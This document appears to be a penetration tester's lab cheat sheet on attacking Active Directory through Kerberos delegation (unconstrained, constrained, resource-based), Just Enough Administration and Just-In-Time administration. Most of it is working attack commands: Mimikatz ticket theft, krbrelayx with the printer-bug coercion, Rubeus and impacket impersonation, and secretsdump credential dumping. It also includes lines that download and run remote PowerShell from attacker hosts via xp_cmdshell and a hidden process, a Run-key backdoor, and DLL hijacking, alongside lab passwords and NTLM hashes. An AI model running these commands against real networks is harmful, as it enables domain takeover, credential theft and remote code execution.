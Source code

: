 # Attacking AD

<details>

<summary>Unconstrained Delegation</summary>

![](<../.gitbook/assets/image (313).png>)

* Allows forwardable TGT --> frontend service is able to perform authentication on behalf of user to any service

## Enumeration

<pre class="language-powershell"><code class="lang-powershell">iex (new-object net.web-client).downloadstring('http://192.168.45.198/PowerView.ps1')
<strong>Get-DomainComputer -Unconstrained
</strong># Domain Controllers are configured with unconstrained delegation by default

#To know the IP of the target
nslookup appsrv01
</code></pre>

## Exploitation

* Must be local admin on the target (eg: appsrv01)
*   3 methods

    * Have domain admin visit the application using uncontrained kerberoast --> dump TGT of admin
      *   ```
          sekurlsa::tickets
          ```

          <figure><img src="../.gitbook/assets/image (314).png" alt=""><figcaption></figcaption></figure>


      *   ```
          sekurlsa::tickets /export
          ```

          <figure><img src="../.gitbook/assets/image (315).png" alt=""><figcaption></figcaption></figure>


      *   ```
          kerberos::ptt [0;1801fa]-2-0-60a10000-admin@krbtgt-PROD.CORP1.COM.kirbi
          ```

          <figure><img src="../.gitbook/assets/image (316).png" alt=""><figcaption></figcaption></figure>


      *   ```powershell
          exit
          # Verify that we have the TGT
          klist
          # Laterally move to DC
          C:\Tools\SysinternalsSuite\PsExec.exe \\cdc01 cmd.exe
          ```


    * OR Krbrelayx attack on unconstrained delegation
      *

          <figure><img src="../.gitbook/assets/image (5) (1) (1).png" alt=""><figcaption></figcaption></figure>


      * Dump the NTLM hashes for Files01 computer account (FILES01$)![](<../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1).png>)
        *   ```powershell
            # Dump as domain user
            impacket-secretsdump CORP/adam:4Toolsfigure3@192.168.101.104
            # Dump as built-in admin
            impacket-secretsdump administrator:2J8u{2e@192.168.187.121
            ```


      * Add an SPN for `attacker.corp.com` on `FILES01$`
        *   ```powershell
            # git clone https://github.com/dirkjanm/krbrelayx.git
            python3 addspn.py -u "corp.com\FILES01$" -p aad3b435b51404eeaad3b435b51404ee:9aa7af9cb73fbb418adf1586e9686931 -s HOST/attacker.corp.com --additional 'dc01.corp.com'
            ```


      * Add a DNS Entry for `attacker.corp.com` in Active Directory
        *   ```powershell
            python3 dnstool.py -u "corp.com\FILES01$" -p aad3b435b51404eeaad3b435b51404ee:9aa7af9cb73fbb418adf1586e9686931 -r 'attacker.corp.com' -d '192.168.45.211' --action add 'dc01.corp.com'
            ```


      * Verify DNS Resolution for Attacker Host
        *   ```powershell
            nslookup attacker.corp.com dc01.corp.com
            ```


      * Start `krbrelayx` to Relay Authenticated TGT
        *   ```powershell
            # aes256-cts-hmac-sha1-96
            python3 krbrelayx.py -aesKey 00ba3cfd9198fa8a6dc795324242810e98c7d36d083bd811fdfe204ef30cc7a7
            ```


      * Trigger Authentication from the DC Using the Print Spooler Bug
        *   ```powershell
            python3 printerbug.py "corp.com/FILES01$"@dc01.corp.com -hashes aad3b435b51404eeaad3b435b51404ee:22a506a9cabc86c93dda21decc4b2e75 "attacker.corp.com"
            ```


        * If errors out --> rerun the impacket secretdump again to obtain the computer hashes
        * Check if got ccache file in the directory
      * Importing the ccache file
        * ```bash
          mv DC01\$@CORP.COM_krbtgt@CORP.COM.ccache administrator.ccache
          export KRB5CCNAME=administrator.ccache
          ```
      * Use the Captured TGT to Dump Credentials from the DC
        *   ```powershell
            impacket-secretsdump -k -no-pass "corp.com/DC01$"@dc01.corp.com
            ```


      * Running Impacket-PsExec for Remote Code Execution
        * ```powershell
          impacket-psexec admin@dc01.corp.com -hashes :<nt hash>
          ```



    * OR Force high-privileged authentication without any user interaction (PrintSpooler)
      *   ```powershell
          Rubeus.exe monitor /interval:5 /filteruser:CDC01$
          SpoolSample.exe <target-machine> <capture-server>
              #SpoolSample.exe CDC01 APPSRV01
          Rubeus.exe ptt /ticket:doIFIjCCBR6gAwIBBaEDAgEWo…
          ```


      * Since machine account (CDC01$) is not local admin on DC, can't laterally move to it
      * Can laterally move via:
        * [Golden Ticket](persistence.md#golden-ticket)
        * [Dump administrator hash](lateral-movement.md#dump-domain-admin-hash-from-dc)

</details>

<details>

<summary>Constrained Delegation</summary>

* Solve the double-hop issue while limiting access to only the desired backend service defined in msds-allowedtodelegateto
* S4U2Self --> Allows a service to request Kerberos TGS for any user, including domain admin, without needing their passwords or hash
* S4U2Proxy --> Allows a service to take a TGS from S4U2Self and exchange it for a TGS to a backend service

![](<../.gitbook/assets/image (11) (1) (1).png>)

## Enumeration

*   <pre class="language-powershell"><code class="lang-powershell"><strong>#Powerview
    </strong><strong>Get-DomainUser -TrustedToAuth
    </strong></code></pre>

    <figure><img src="../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>


* Contained delegation is configured on IISSvc and it is only allowed to MSSQLSvc

## Exploitation 1

* Compromise the IISSvc account
  * ```powershell
    # Generate the NTLM hash
    .\Rubeus.exe hash /password:lab
    # Generate TGT for IISSvc
    .\Rubeus.exe asktgt /user:iissvc /domain:prod.corp1.com /rc4:2892D26CDF84D7A70E2EB3B9F05C425E /nowrap
    ```
* Use S4U2Proxy to get a ticket to MSSQL (SPN listed in msds-allowedtodelegateto field)
  * ```powershell
    .\Rubeus.exe s4u /ticket:doIE+jCCBP... /impersonateuser:administrator /msdsspn:mssqlsvc/cdc01.prod.corp1.com:1433 /ptt

    # .\Rubeus.exe s4u /ticket:doIEpjCCBKKgA… /impersonateuser:administrator /msdsspn:cifs/file01.evil.com /ptt
    ```
*   Execute code on MSSQL

    * Enumerate the user logged in to MSSQL --> logged in as the domain admin

    <figure><img src="../.gitbook/assets/image (4) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



## Exploitation 2

* Modify service names in memory to gain unauthorized access to different services on same host
* When TGS is returned by KDC, only server name is encrypted but not service name
* Attacker can modify service name to authenticate to different service
* For instance if msDS-AllowedToDelegateTo is set to MSSQLSvc/cdc01.prod.corp1.com
* Able to change it to access file system (cifs)
*   ```powershell
    .\Rubeus.exe s4u /ticket:doIE+jCCBPag... /impersonateuser:administrator /msdsspn:mssqlsvc/cdc01.prod.corp1.com /altservice:CIFS /ptt
    ```



## Exploitation 3

![](<../.gitbook/assets/image (3) (1) (1) (1) (1).png>)

* Obtain a Ticket Granting Ticket (TGT) for the Service Account
  *   ```powershell
      impacket-getTGT corp.com/iissvc -hashes :12bb0b468b42c76d48a3a5ceb8ade2e9
      export KRB5CCNAME=iissvc.ccache
      ```


* Obtain a Service Ticket (ST) for MSSQL Service as Administrator
  *   ```powershell
      impacket-getST -spn mssqlsvc/sql01.corp.com:1433 -impersonate administrator corp.com/iissvc -k -no-pass
      export KRB5CCNAME=administrator.ccache
      ```


* Access the SQL Server as Administrator
  *   ```powershell
      impacket-mssqlclient sql01.corp.com -k
      ```


* Check the current user and privileges inside SQL Server:
  *   ```sql
      SELECT SYSTEM_USER;
      SELECT IS_SRVROLEMEMBER('sysadmin');
      SELECT CURRENT_USER;
      ```


* Execute Reverse Shell via xp\_cmdshell in sql server
  *   ```sql
      EXECUTE AS LOGIN = 'sa';
      EXEC sp_configure 'show advanced options', 1; RECONFIGURE;
      EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;
      EXEC xp_cmdshell 'powershell -c "IEX (New-Object Net.WebClient).DownloadString(\"http://192.168.45.211/runall.ps1\")"';
      ```


* To troubleshoot: use the -dc-ip flag and the cifs/file02 SPN for the getST part and -target-ip for the psexec part
  * ```bash
    # Obtain TGT for service acc
    impacket-getTGT cowmotors.com/svc_file

    # Obtain Service Ticket for cifs/file02 as administrator
    export KRB5CCNAME=svc_file.ccache
    impacket-getST -spn cifs/file02 -impersonate administrator -dc-ip DC01 cowmotors.com/svc_file -k -no-pass

    # Check new kerberos ticket
    mv administrator@cifs_file02@COWMOTORS.COM.ccache administrator.ccache
    export KRB5CCNAME=administrator.ccache
    klist

    # PSExec to file02
    impacket-psexec administrator@file02 -target-ip file02 -k -no-pass
    ```

</details>

<details>

<summary>Resource-Based Constrained Delegation</summary>

* msDS-AllowedToActOnBehalfOfOtherIdentity
* Backend service controls which frontend services can delegate on behalf of users
* Attack against RBCD needs to happen from a computer account or a service account with a SPN

### Enumeration

* Find which computers we can modify using GenericWrite permissions
  *   ```powershell
      Get-DomainComputer | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Where-Object { $_.ActiveDirectoryRights -like '*GenericWrite*' }
      ```


  * OR Specifying domain
    *   ```powershell
        Get-DomainComputer -Domain ops.comply.com | Get-ObjectAcl -ResolveGUIDs | Foreach-Object { $_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Where-Object { $_.ActiveDirectoryRights -like '*GenericWrite*' }
        ```



### Exploitation

* Add a New Computer Account (myComputer$) to the Domain
  *   ```powershell
      impacket-addcomputer -computer-name 'myComputer$' -computer-pass 'h4x' corp.com/mary -hashes :942f15864b02fdee9f742616ea1eb778
      # impacket-addcomputer -computer-name 'myComputer$' -computer-pass 'h4x' ops.comply.com/FILE06$ -hashes :c81c9...
      # impacket-addcomputer -computer-name 'myComputer$' -computer-pass 'h4x' COWMOTORS-INT.COM/TERENCE.FORD -k -no-pass -dc-host=dc02.cowmotors-int.com
      ```


* Configure RBCD on the Target Machine (BACKUP01$)
  *   ```powershell
      impacket-rbcd -action write -delegate-to "BACKUP01$" -delegate-from "myComputer$" corp.com/mary -hashes :942f15864b02fdee9f742616ea1eb778
      # impacket-rbcd -k -no-pass -action write -delegate-to "web01$" -delegate-from "myComputer$" COWMOTORS-INT.COM/TERENCE.FORD
      ```


* Obtain a Service Ticket (ST) as Administrator
  *   ```powershell
      impacket-getST -spn cifs/backup01.corp.com -impersonate administrator 'corp.com/myComputer$:h4x'
      # impacket-getST -spn 'cifs/web01.cowmotors-int.com' -impersonate Administrator -dc-ip 'dc02.cowmotors-int.com' 'cowmotors-int/myComputer$:h4x'
      ```


* Execute Commands as Administrator
  *   <pre class="language-powershell"><code class="lang-powershell"><strong>mv Administrator@cifs_backup01.corp.com@CORP.COM.ccache administrator.ccache
      </strong>export KRB5CCNAME=/home/kali/Documents/offsec/challenges/7/administrator.ccache
      impacket-psexec administrator@backup01.corp.com -k -no-pass
      </code></pre>



[Exploiting GenericWrite on Computer Object](lateral-movement.md#exploiting-genericwrite-on-computer-object)

</details>

<details>

<summary>Exploiting Just Enough Administration (JEA)</summary>

* L**imits administrative privileges** by allowing users to run only specific **approved** commands via PowerShell

- View PowerShell Command History
  *   ```powershell
      (Get-PSReadlineOption).HistorySavePath
      type C:\Users\mary\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
      ```


- Detect if JEA is Enabled on the Target Machine
  *   ```powershell
      Enter-PSSession -ComputerName files02 -ConfigurationName j_fs02
      ```


- **Check if commands are restricted:** ![](<../.gitbook/assets/image (4) (1) (1) (1).png>)
  *   <pre class="language-powershell"><code class="lang-powershell">[System.Security.Principal.WindowsIdentity]::GetCurrent().Name
      # NoLanguageMode --> likely restricted by JEA.

      $ExecutionContext.SessionState.LanguageMode
      <strong>#If full or contrained:
      </strong>&#x26; {IEX (New-Object Net.WebClient).DownloadString('http://192.168.45.211/runall.ps1')}
      </code></pre>


- Enumerate Available Commands in the JEA Session
  *   ```powershell
      Get-Command
      ```


  * If `Copy-Item`, `Move-Item`, or `New-Item` is available, you can **drop malicious payloads**:
    *   ```powershell
        # Exfiltrate sensitive files
        Copy-Item -Path C:\Windows\System32\drivers\etc\hosts -Destination C:\shares\mary\stolen_hosts.txt
        # DLL hijacking for privilege escalation
        Copy-Item C:\shares\payload.dll -Destination "C:\Program Files\VulnerableApp\malicious.dll"
        ```


  * If `Start-Process` is available, it can execute **arbitrary processes**:
    *   ```powershell
        Start-Process "cmd.exe" -ArgumentList "/c whoami"
        Start-Process "powershell.exe" -ArgumentList "-NoP -NonI -W Hidden -c IEX (New-Object Net.WebClient).DownloadString('http://attacker.com/revshell.ps1')"
        ```


  * If `New-Item` and `Set-ItemProperty` are available, registry values can be modified to establish **persistence**:
    * ```powershell
      New-Item -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" -Name "Backdoor" -Value "C:\malware.exe"
      ```
- Proof-of-Concept: Copying dll to program folder for DLL Hijacking
  * ```powershell
    copy-item C:\shares\home\mary\msasn1.dll -destination "C:\Program Files\FileZilla Server\msasn1.dll"
    ```

</details>

<details>

<summary>Exploiting Just-In-Time Administration Theory</summary>

* Providing temporary, limited administrative access to resources
* Once the time is up, the privileges are revoked automatically
* Requires Privileged Access Management Feature (PAM) to be enabled

## Enumeration

*   ```powershell
    Import-Module .\Microsoft.ActiveDirectory.Management.dll
    Get-Command -Module Microsoft.ActiveDirectory.Management | Where-Object { $_.Name -like "Get-*" }
    ```

    <figure><img src="../.gitbook/assets/image (7) (1) (1).png" alt=""><figcaption></figcaption></figure>


*   ```powershell
    Get-ADOptionalFeature -Filter *
    ```

    <figure><img src="../.gitbook/assets/image (8) (1) (1).png" alt=""><figcaption></figcaption></figure>
*   ```powershell
    Get-NetUser mary | select memberof
    Get-NetGroup j_approve | select member
    ```



## Enumerate GPOs available in the domain

*   ```powershell
    Get-NetGPO | select displayname
    Get-NetGPO l_web01
    ```

    <figure><img src="../.gitbook/assets/image (9) (1) (1).png" alt=""><figcaption></figcaption></figure>


* Copy paste path to explorer
* View the group policies in [\\\corp.com\SysVol\corp.com\Policies\\{99EC2AB4-0FD4-406E-8FDA-BE451DEB2AA6}\Machine\Preferences\Groups](file://corp.com/SysVol/corp.com/Policies/%7B99EC2AB4-0FD4-406E-8FDA-BE451DEB2AA6%7D/Machine/Preferences/Groups)
  *

      <figure><img src="../.gitbook/assets/image (10) (1) (1).png" alt=""><figcaption><p>Adding la_web to local admin group (RID: 544) on WEB01</p></figcaption></figure>


*   ```powershell
    klist purge
    #So that we can request the new kerberos ticket
    Enter-PSSession -ComputerName WEB01
    ```



</details>
